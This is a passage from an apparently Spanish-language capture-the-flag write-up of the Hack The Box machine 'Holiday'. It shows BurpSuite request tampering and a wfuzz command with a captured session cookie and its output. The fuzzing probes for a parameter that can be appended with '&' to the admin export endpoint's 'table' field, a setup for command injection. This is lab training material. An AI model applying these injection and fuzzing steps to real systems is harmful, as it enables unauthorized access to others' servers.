 Intercepto la petición con BurpSuite, modifico la referencia y efectivamente están relacionados

<img src="/writeups/assets/img/Holiday-htb/33.png" alt="">

Si introduzco una comilla, aparece el siguiente error

<img src="/writeups/assets/img/Holiday-htb/34.png" alt="">

Como el & está entre los caracteres permitidos, le puedo concatenar otro parámetro, para saber cual, aplico fuzzing. Tengo que arrastrar la cabezera de la cookie de sesión y, por si acaso, el User Agent

```null
wfuzz -c --hc=500 --hh=13155 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Cookie: connect.sid=s%3A9fa78360-98ed-11ed-acb1-f148c6fda646.8wGLR4jXSJPq47VB2dINcX2oFYJ2AcGush%2Fozi2dr2w" -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" "http://10.10.10.25:8000/admin/export?table=bookings%26FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.25:8000/admin/export?table=bookings%26FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000116:   200        101 L    285 W      13189 Ch    "jobs"                                                                                                                                          
000000181:   200        0 L      0 W        0 Ch        "in"                                                                                                                                            
000000071:   200        285 L    1454 W     24241 Ch    "info"                                                                                                                                          
000000202:   200        101 L    290 W      13230 Ch    "dir"                                                                                                                                           
```